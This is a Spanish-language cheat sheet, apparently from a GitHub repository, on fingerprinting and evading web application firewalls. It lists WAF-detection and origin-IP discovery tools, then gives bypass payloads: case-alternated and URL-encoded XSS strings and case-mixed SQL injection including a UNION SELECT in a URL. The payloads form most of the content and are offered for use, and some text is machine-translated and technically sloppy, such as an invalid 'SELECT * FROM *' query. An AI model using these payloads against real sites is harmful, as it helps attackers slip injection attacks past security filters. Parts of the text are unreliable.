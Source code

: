 ## Herramientas para verificar y omitir WAF

> w3af : marco de auditoría y ataque de aplicaciones web

- **[wafw00f](https://github.com/EnableSecurity/wafw00f)** — Identificar y tomar huellas dactilares del firewall de aplicaciones web

- **[BypassWAF](https://github.com/vincentcox/bypass-firewalls-by-DNS-history):** evita los firewalls abusando del historial de DNS. Esta herramienta buscará registros DNS A antiguos y comprobará si el servidor responde para ese dominio.

- **[CloudFail](https://github.com/m0rtem/CloudFail)** : es una herramienta de reconocimiento táctico que intenta encontrar la dirección IP original detrás del WAF de Cloudflare.

## Técnicas para evitar WAF:

### 1. Técnica de alternancia de casos

Combine caracteres en mayúsculas y minúsculas para crear cargas útiles eficientes.

**Solicitud básica:**

```bash
<script>confirm()</script>
```

**Técnica omitida:**

```bash
<ScrIpT>confirm()</sCRiPt>
```

**Solicitud básica:**

> SELECT * FROM * WHERE OWNER = 'NAME_OF_DB'

**Técnica omitida:**

> sELeCt * fRoM * wHerE OWNER = 'NAME_OF_DB'

**Ejemplo en URL:**

> http://example.com/index.php?page_id=-1 UnIoN SeLeCT 1,2,3,4

### 2. Técnica de codificación de URL

Codifique cargas útiles normales con % de codificación/codificación de URL. Puedes usar Burp Suite. Dispone de una herramienta codificadora/decodificadora.

**Bloqueado por WAF:**

```bash
<Svg/x=“>”/OnLoAD=confirm()//
```

**Técnica omitida:**

```bash
%3CSvg%2Fx%3D%22%3E%22%2FOnLoAD%3Dconfirm%28%29%2F%2F
```
